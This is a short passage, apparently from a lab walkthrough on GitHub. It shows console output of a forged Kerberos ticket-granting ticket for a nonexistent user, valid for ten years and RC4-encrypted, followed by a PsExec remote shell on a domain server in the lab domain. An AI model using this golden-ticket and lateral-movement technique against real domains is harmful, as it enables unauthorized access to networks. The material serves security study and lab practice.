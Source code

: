 ```console

Current LogonId is 0:0x50b951

Cached Tickets: (1)

#0>     Client: nonexistentuser @ lab.vx
        Server: krbtgt/lab.vx @ lab.vx
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/23/2022 15:47:53 (local)
        End Time:   4/20/2032 15:47:53 (local)
        Renew Time: 4/20/2032 15:47:53 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- Attempt to connect to domain member machine

```console
C:\Users\john>PsExec.exe \\SVR.lab.vx cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
lab\nonexistentuser

C:\Windows\system32>hostname
SVR

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.17.151
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.17.1

Tunnel adapter isatap.{122DB809-79C7-4A57-9A51-76A6C8B0B97B}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```
